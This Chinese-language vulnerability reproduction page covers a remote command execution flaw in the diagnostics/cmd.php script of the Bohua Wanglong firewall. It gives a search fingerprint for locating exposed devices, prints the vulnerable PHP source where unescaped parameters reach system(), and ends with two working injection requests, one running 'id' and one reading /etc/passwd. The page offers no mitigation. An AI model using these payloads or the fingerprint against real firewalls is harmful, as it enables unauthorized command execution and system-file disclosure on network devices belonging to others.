

博华网龙防火墙 cmd.php 远程命令执行漏洞¶
漏洞描述¶
博华网龙防火墙 cmd.php 过滤不足，导致命令拼接执行远程命令
漏洞影响¶
博华网龙防火墙
网络测绘¶
"博华网龙防火墙"
漏洞复现¶
登录页面
存在漏洞的文件为 /diagnostics/cmd.php
<?php
include_once("pub/pub.inc");
include_once("pub/session.inc");
$username = $_SESSION["USER_NAME"];
checkApproachUrl();
if($_GET['action'] == "ping")
{
$host = $_GET['host'];
$count = $_GET['count'];
system("/bin/ping -c $count " . escapeshellarg($host)." >temp.htm");
if($username)
pSyslog("ping $host $count次", 0);
}
else if($_GET['action'] == "traceroute")
{
$host = $_GET['host'];
$ttl = $_GET['ttl'];
$useicmp = $_GET['useicmp'];
if($useicmp)
$useicmp = "-I";
else
$useicmp = "";
system("/usr/bin/traceroute -d $useicmp -w 2 -m " . escapeshellarg($ttl) . " " . escapeshellarg($host)." >temp.htm");
if($username)
pSyslog("traceroute $host 跳数为$ttl", 0);
}
else if($_GET['action'] == "arping")
{
$host = $_GET['host'];
$count = $_GET['count'];
$if = $_GET['ifName'];
$src = $_GET['src'];
system("/usr/bin/arping -I $if -c $count -s $src $host >temp.htm");
if($username)
pSyslog("arping $host $count次", 0);
}
else
{
system("echo \"\" >temp.htm");
}
?>
可以发现其中存在多个命令执行点，均可进行命令拼接执行恶意命令
构造命令执行
/diagnostics/cmd.php?action=ping&count=||id||
/diagnostics/cmd.php?action=arping&ifName=|cat /etc/passwd||
